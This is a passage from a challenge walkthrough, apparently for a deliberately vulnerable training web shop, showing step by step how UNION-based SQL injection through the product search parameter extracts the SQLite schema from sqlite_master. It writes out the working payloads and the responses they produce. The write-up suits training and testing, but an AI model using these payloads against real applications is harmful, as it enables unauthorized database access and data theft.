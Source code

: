 ### Exfiltrate the entire DB schema definition via SQL Injection

1. From any errors seen during previous SQL Injection attempts you
   should know that SQLite is the relational database in use.
2. Check <https://www.sqlite.org/faq.html> to learn in "(7) How do I
   list all tables/indices contained in an SQLite database" that the
   schema is stored in a system table `sqlite_master`.
3. You will also learn that this table contains a column `sql` which
   holds the text of the original `CREATE TABLE` or `CREATE INDEX`
   statement that created the table or index. Getting your hands on this
   would allow you to replicate the entire DB schema.
4. During the
   [Order the Christmas special offer of 2014](#order-the-christmas-special-offer-of-2014)
   challenge you learned that the `/rest/products/search` endpoint is
   susceptible to SQL Injection into the `q` parameter.
5. The attack payload you need to craft is a `UNION SELECT` merging the
   data from the `sqlite_master` table into the products returned in the
   JSON result.
6. As a starting point we use the known working `'))--` attack pattern
   and try to make a `UNION SELECT` out of it
7. Searching for `')) UNION SELECT * FROM x--` fails with a
   `SQLITE_ERROR: no such table: x` as you would expect.
8. Searching for `')) UNION SELECT * FROM sqlite_master--` fails with a
   promising `SQLITE_ERROR: SELECTs to the left and right of UNION do
   not have the same number of result columns` which least confirms the
   table name.
9. The next step in a `UNION SELECT`-attack is typically to find the
   right number of returned columns. As the _Search Results_ table in
   the UI has 3 columns displaying data, it will probably at least be
   three. You keep adding columns until no more `SQLITE_ERROR` occurs
   (or at least it becomes a different one):

   1. `')) UNION SELECT '1' FROM sqlite_master--` fails with `number of
      result columns` error
   2. `')) UNION SELECT '1', '2' FROM sqlite_master--` fails with
      `number of result columns` error
   3. `')) UNION SELECT '1', '2', '3' FROM sqlite_master--` fails with
      `number of result columns` error
   4. (...)
   5. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8' FROM
      sqlite_master--` _still fails_ with `number of result columns`
      error
   6. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM
      sqlite_master--` finally gives you a JSON response back with an
      extra element
      `{"id":"1","name":"2","description":"3","price":"4","deluxePrice":"5","image":"6","createdAt":"7","updatedAt":"8","deletedAt":"9"}`.

10. Next you get rid of the unwanted product results changing the query
    into something like `qwert')) UNION SELECT '1', '2', '3', '4', '5',
    '6', '7', '8', '9' FROM sqlite_master--` leaving only the
    "`UNION`ed" element in the result set
11. The last step is to replace one of the fixed values with correct
    column name `sql`, which is why searching for `qwert')) UNION SELECT
    sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`
    solves the challenge.
